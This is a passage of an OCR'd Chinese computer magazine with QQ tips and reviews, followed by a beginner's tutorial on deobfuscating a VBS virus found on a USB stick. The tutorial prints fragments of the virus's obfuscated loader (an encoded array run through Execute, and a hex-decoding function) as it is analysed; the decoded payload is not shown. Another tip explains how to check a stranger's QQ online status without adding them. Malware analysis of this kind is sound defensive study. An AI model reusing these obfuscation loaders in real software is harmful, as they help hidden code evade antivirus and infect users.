

现在经过作者的改编还增加了语音，远程协助，遗憾的是不能视频，语音的效果也不是很好，但是远程协助很不错，来看看他的聊天界面，如图 3。

在 LAN QQ 里我们看见了很多 QQ 的影子，在选项里也有添加好友、个人设置、基本设置等，如图 4, 图 5。



> 评：最近听到有读者反映学校校园网与公网一断，QQ 都上不了，跟同学交流都郁闷，我想这款软件应该可以解决问题的。虽然功能没有 QQ 那么强大，但在资源占用等方面来说还是值得我们一试的。

其实懒 QQ 最大的特点不是它的即时通讯，而是文件传输，超高的传输速度和稳定性是我选择它的原因，如图 6。



自从有了 LAN QQ 以后，我们宿舍电脑之间的文件传输再也不通过 U 盘了，用 U 盘实在是很麻烦，老是插拔，而且还有速度和容量的限制，而懒 QQ 就不一样了，只要硬盘够，电脑彼此间组一个局域网，那就是你想怎么传就怎么传。

# COOL 技巧

## QQ 空间代码盗！盗！盗！

图/都安山 (婷之爱)

大家都知道好的代码很快就不可以用了，自己看到别人的好代码，问人家要也不一定给吧！下面就教大家查看好了！打开 http://www.qzone6.com/8080 zonecodes.asp 网址，如图 1。



呵呵不错吧！有用的东西都查到了！下面只需利用这些代码！教教菜鸟如何使用代码：

- 1. 打开你的 QQ 空间
- 2. 点自定义移动一下其它模块（就是个人档案，相册或者什么的模块）
- 3. 在地址栏输入代码，转到
- 4. 点自定义栏的的保存，OK

# 快速查看 QQ 陌生人是否在线

图 小环环

不用登录 QQ，就能查看陌生人 QQ 是否在线，http://wpa.qq.com/pa?p=1:123456789:4 这个地址就可以帮你查找你想要查的 QQ 号码就可以了。不用加对方为好友就可以查在线状态，如果地址显示的小企鹅是灰色的就是不在线，亮着的是在线的。记住这个地址，可以迅速查找陌生人是否在线，免除 QQ2008 查不出来的尴尬。

# COOL 资源

## 免费 QQ 秀套装大集锦

图都安山（婷之爱）

最近，QQ 秀商城出现了很多免费的套装 QQ 秀。只是不好找，关键词查找的话也只是小部件，今天为大家做了一下整理！还有情侣装哦，完整地址在光盘中，包括男性时尚，男性经典，女性时尚，女性经典，情侣装。

男性时尚
http://show.qq.com/show.htmlMUrl=myincrecmdview.html%3Fuin%3D286250248%26id%3D458434
http://show.qq.com/show.htmlMUrl=myincrecmdview.html%3Fuin%3D40633628%26id%3D384638


最后给大家看看情侣装效果，如图 1。
再给大家暴个料：商城中开始送套装 QQ 秀了！不过每天都有名额限制哦！给大家地址 http://show.qq.com/livebrand/home.html。
为方便大家领取，可以到我的 QQ 空间复制地址：http://user.qzone.qq.com/446425113，我为大家在日志中置顶！呵呵，去者留言啊！

图 1 情侣装效果

# 为点亮 QQ 图标前赴后继

图凶神恶煞

不知不觉 QQ 版本又更新换代了，别的功能不说，单单图标就新增了好几个，（我现在用的是 QQ2008 Beta1 祈福版，四川汶川地震，TX 搞出来的花样）我是为点亮图标前赴后继一族，哎！一个愿打一个愿挨吧！当然收费图标我一般不会去点亮。这里也提供关闭图标的方法，不喜欢图标亮的朋友可以把图标关闭！完整的点亮和关闭图标的方法收录在光盘中，感兴趣的读者可以去查阅，下面是部分内容。

- QQ 堂：QQ 堂积分达到 500 分以上即可。
- QQ 音速：使用两颗音乐种子即可点亮。
- QQ 幻想：QQ 幻想角色达到 10 级以上即可。
- 特殊图标：奥运火炬手、QQ 祈福的[蜡烛图标] 允许用户在个性签名中通过添加“/思念/”或“/祈福/”等特定文字来挂上黄丝带和点燃蜡烛。

小道消息：QQ 日历、QQ 黑钻、QQ 金钻（已现身，但功能尚没清楚）将会出现图标，等待中……

## Q 版黑客

冰点语：
你是否从过去的灾难中学到了些什么？火热的七月是否同样也点燃你奋斗的激情？漫长暑假的来临你会不会觉得无所事事呢？那么，拿起黑手，细细品读，你会发现，这期的黑手同样精彩！

## 菜鸟也来解密 vbs 病毒

图旋风骑士

- 从本文你可以学到：
- 利用 C32Asm 和 HTML 知识解密 VBS 脚本病毒

今天朋友新买了个 u 盘，插到我电脑上，卡巴愤怒的嘶吼了一声，我马上意识到有问题，右键打开 u 盘看到一个 autorun.inf 文件和一个 vbs 文件。毫无疑问了，就是这个东西惹毛了卡巴。不过，虽然我极力抢救，卡巴还是不留情面的砍掉了 autorun.inf（难道这就是新 u 盘？极度怀疑）。关于 vbs，大家如果不了解的话可以到批处理联盟看看，那有专门的版块。我把这个 vbs 文件保留了下来（卡巴斯基急得眼睛都红了，中间报了 n 次，貌似大怒啊），关掉了卡巴的监控。这个文件似乎很有能耐啊，那我们就“打开”它来看看是什么东西，如图 1。这就是 vbs 用记事本打开后的代码，我们往下看看，如图 2。相信大家已经看出来了吧，中间定义了一个数组，然后下面有两个执行语句，我把代码给大家写上来：


图 1 vbs 用记事本打开后的代码


图 2

```vbscript
rem UC 这个是注释
'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"!@#$%^&*()_+|; ' , . / : "<>? 这个还是注释
UC=array(13,114,101,109,32,85,67,32,13,10,108,79,61,34,28,27,32,18,31,31,28,31,32,31,18,1,3,26,18,32,27,18,6,2,127,11,17,7,8,61…… 这个就是文件的主体内容
for i=1 to UBound(UC) : UCS=UCS&chr(UC(i)) : next:ExecUte UCS 这个就是那个执行语句
``````vbscript
for i=1 to UBound(UC)
UCS=UCS&chr(UC(i))
Next
Execute UCS





```

这下明白了吧？是个for 循环，for和next之间的部分是循环体。这个给人的第一印象就是很麻烦，因为数组定义得大的出奇，而且for语句的循环体是个赋值语句，chr(UC(i))这个是取相应的ascii 码，& 这个是连接字符，可以想象下，大的出奇的数组，那循环到最后一次时 ucs 会是多长的一个值呢（大家可以参考相关 vbs 资料）？

一般的解密都是看看是否有 execute，如果有的话，我们可以通过修改它来得到代码。但是我们仔细看看这个数组中的数字，似乎没有 abcd 等字符，那么就是十进制数字了。我们先来用“网页加解密”这个网页工具上的十进制解密来进行解密看看。注意，把那段数字复制，然后粘贴到网页加解密上的中间，接着点击右侧的十进制解密，代码就出来了。我们来看看代码，如图 3。
既然这个 vbs 不是简单的加密，我们就继续下去，直到剥光它的衣服。我们看看这个经过一次解密的文件，好大一部分不怎么熟悉的 ascii 码，怎么办呢？什么都看不懂啊？不要怕，反正看不懂，所以就不鸟它，管它是什么鸟，我们继续找我们能看懂的就行了。中间有这么一个 function 函数：

```vbscript
function uc(b):x="633d766263726C663A643D3132373A663A643D3132373A663D31313A6A3D31323A683D31343A6D31343A6D3D33313A723D38333A6B3D313A6E3D383A733D3131343A753D2D353A763D350D0A693D22696620613D223A743D22207468656E20223A653D22656C7365696620613D223A613D222C223A613D223A673D22613D612B223A6F3D22266326673A703D6326653A713D6326690D0A657865637574652822696622266F2220693D3120746F206C656E2862293A613D617363286D696428622C692C3129292226712622642226742622613D31332226712622662226742622613D313022267126226A22267426632622613D3334222663266522622266126226D22266F2226722267026226B22266126226E22266F22622732226702266126622353722266F26227522267022634382226612622353222266F2622762226632622656E6420696622266326653D75632B636872286129222663266e6578742263262275633D726E2B632B75632229:y="execute "":z="&chr(&h";w=")":execute("do while len(x)>1:if isnumeric(left(x,1)) then y=y&z&left(x,2)&w:x=mid(x,3) else y=y&z+left(x,4)+w:x=mid(x,5)"&vbcrlf&"loop"):execute(y):end function
```

晕，原来不是加密了一次啊。大家可以试试另一个解密方法：就是修改 execute。具体的方法就是在代码的最上面加上以下代码：

```html
<textarea id="textareaID" rows="50" cols="100"></textarea>
<SCRIPT LANGUAGE="vbscript">
```

这个容易理解吧，html 语句。然后找到 execute（什么？你找不到？晕，把代码复制到记事本里，按 ctrl+f，然后输入 execute，点击查找），把execute换成document.getElementById("textareaID").innerText=。如果学了 html 与 vbs 的话就很容易理解这个 document 语句了。修改以后代码如下：

```html
<textarea id="textareaID" rows="50" cols="100"></textarea>
<SCRIPT LANGUAGE="vbscript">
rem UC
'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890~!@#$%^&*()_+|:.'../:
'<>?
UC=array(13,114,101,109,32,85,67,32,..................
......................................................
......................................................
41,13,10):for i=1 to UBound(UC):UCS=UCS&chr(UC(i)):next:document.
getElementById("textareaID").innerText=
UCS'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890~!@#$%^&*()_+|:.'../:
'<>?ABCDEFGHIJKLMNOPQRSTUVWXYZ</SCRIPT>
```

又是一大堆的数字，头都大了。我们仔细看看，好像发现些什么。这堆数字里有 a 到 f 字符，不用说，一定是十六进制了，可是这个不是十六进制加密的，怎么办呢？我们总不能把它当机器码翻译吧？这里借助个工具来看看，使用 C32Asm “打开文件”，“新建十六进制文件”，“确定”。然后复制那段十六进制码（只要数字），点击“编辑”，“特别粘贴”，选中“ascii hex”，确定。在右侧我们得到这样的结果：

```vbscript
c=vbcrlf;d=127;f=11;j=12;h=14;m=31;r=83;k=1;n=8;s=114;u=-5;v=5
i="if a=";t=" then ";e="elseif a=";a=",";a=":";g="a=a+";o=t&c&g;
p=c&e;q=c&i
execute(i&" for ii=1 to len(b):a=asc(mid(b,ii,1))
" & q & " d " & i & " a = 13 " & q & " f " & t & " a = 10 " & q & " j " &
t & c & " a = 34 " & c & e & " h " & a & " m " & " o & " r " & p &
"k"&a&"n"&o&"s"&p&"53"&a&"57"&o&"u"&p&"48"&a&"52"&o&"v"&c&"end
if"&c&"uc=uc+chr(a)"&c&"next"&c&"uc=rn+c+uc"}
```

大家看仔细了，不要少了什么东西啊，不然就不会显示结果。把这个另存为文件名 .htm（或 html）的文件，然后打开，怎么样，你会发现跟刚才直接十进制解密后得到的代码一样，如图 4。

一看之下似乎看不出来什么，我们就把它还原到 function 中。

```vbscript
function uc(b):x="c=vbcrlf;d=127;f=11;j=12;h=14;m=31;r=83;k=1;n=8;s=114;u=-5;v=5
i="if a=";t=" then ";e="elseif a>=";a=" and a<=";g="a=a+";o=t&c&g;
p=c&e;q=c&i
execute(l&"for ii=1 to len(b):a=asc(mid(b,ii,1))
"&q&"d"&t&"a=13"&q&"f"&t&"a=10"&q&"j"&t&c
&"a=34"&c&e&"h"&a&"m"&o&"r"&p&"k "&a&"n"&o&"s"&p&"53"&a&"57"&o&"u
"&p&"48"&a&"52"&o&"v"&c&"end if"&c&"uc=uc+chr(a)
"&c&"next"&c&"uc=rn+c+uc")";y="execute """"";z="&chr(&h";w=")";
execute("do while len(x)>1:if isnumeric(left(x,1)) then y=y&z&left(x,2)&w:x=mid(x,3) else y=y&z+left(x,4)+w:x=mid(x,5)"&vbcrlf&"loop"):execute(y):end function
```

现在就清楚了，原来x定义为字符，我们可以看到里面的if、a=、then、elseif、a>=，等等，这些是把一个完整的if语句给分开了，然后用连接字符&来连接上，下面又用一些字符处理函数来取相应的字符，以此来躲避杀软的查杀，不过卡巴似乎不感冒。大家可以仔细分析下，名字所对应的代码如下：

```
c=vbcrlf
d=127
f=11
j=12
h=14
m=31
r=83
k=1
n=8
s=114
u=-5
v=5
i="if a="
t=" then "
e="elseif a>="
a=" and a<="
g="a=a+"
o="then vbcrlf a=a+"
p="vbcrlf elseif a>="
q="vbcrlf if a="
```

知道代码对应关系后，去掉连字符与引号就得到真实的代码了。在最后我们发现了这个：execute(uc(lO+qO))。欢呼吧！如果大家做过些网马加解密之类的就会一眼发现，这个地方的execute替换后就会直接得到源码了。下面我们就用上面介绍的替换方法替换掉它，看看结果。打开一个记事本，在最上面输入：

```html
<textarea id="textareaID" rows="50" cols="100"></textarea>
<SCRIPT LANGUAGE="vbscript">


















